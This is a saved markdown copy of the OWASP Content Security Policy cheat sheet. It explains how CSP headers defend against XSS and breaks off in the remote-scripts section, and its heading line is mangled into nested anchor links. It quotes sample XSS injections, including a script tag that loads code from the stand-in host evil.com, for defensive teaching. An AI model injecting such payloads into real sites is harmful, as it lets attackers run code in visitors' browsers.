 ```yaml
---
title: "Content Security Policy Cheat Sheet"
source: "[[_content/dictionary#O|OWASP]] Cheatsheet"
source_url: "https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html"
created: "1741872881.7779374"
tags: [owasp, cheatsheet, security]
---
```

# Content Security Policy

## Content Security Policy Cheat Sheet[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[¶](#references)](#refactoring-inline-code)](#preventing-framing-attacks-clickjacking-cross-site-leaks)](#upgrading-insecure-requests)](#basic-non-strict-csp-policy)](#hash-based-strict-policy)](#nonce-based-strict-policy)](#strict-policy)](#csp-sample-policies)](#special-directive-sources)](#reporting-directives)](#navigation-directives)](#document-directives)](#fetch-directives)](#detailed-csp-directives)](#strict-dynamic)](#note)](#hashes)](#warning_1)](#nonce-based)](#strict-csp)](#csp-types-granularallowlist-based-or-strict)](#warning)](#3-content-security-policy-meta-tag)](#2-content-security-policy-report-only-header)](#1-content-security-policy-header)](#policy-delivery)](#defense-in-depth)](#defense-against-framing-attacks)](#5-restricting-[object](https://developer.mozilla.org/en-[[_content/dictionary#U|US]]/docs/Web/[[_content/dictionary#H|HTML]]/Element/object)s)](#4-restricting-form-submissions)](#3-restricting-unsafe-javascript)](#2-restricting-remote-scripts)](#1-restricting-inline-scripts)](#defense-against-xss)](#context)](#introduction)](#content-security-policy-cheat-sheet)
### Introduction¶
This article brings forth a way to integrate the defense in depth concept to the client-side of web applications. By injecting the [- Content-Security-Policy](https://content-security-policy.com/) ([[_content/dictionary#C|CSP]]) headers from the server, the browser is aware and capable of protecting the user from dynamic calls that will load content into the page currently being visited.
### Context¶
The increase in XSS (Cross-Site Scripting), clickjacking, and cross-site leak vulnerabilities demands a more defense in depth security approach.
#### Defense against [[_content/dictionary#X|XSS]]¶
CSP defends against XSS attacks in the following ways:
##### 1. Restricting Inline Scripts¶
By preventing the page from executing inline scripts, attacks like injecting
<script>document.body.innerHTML='defaced'</script>

will not work.
##### 2. Restricting Remote Scripts¶
By preventing the page from loading scripts from arbitrary servers, attacks like injecting
<script src="https://evil.com/hacked.js"></script>
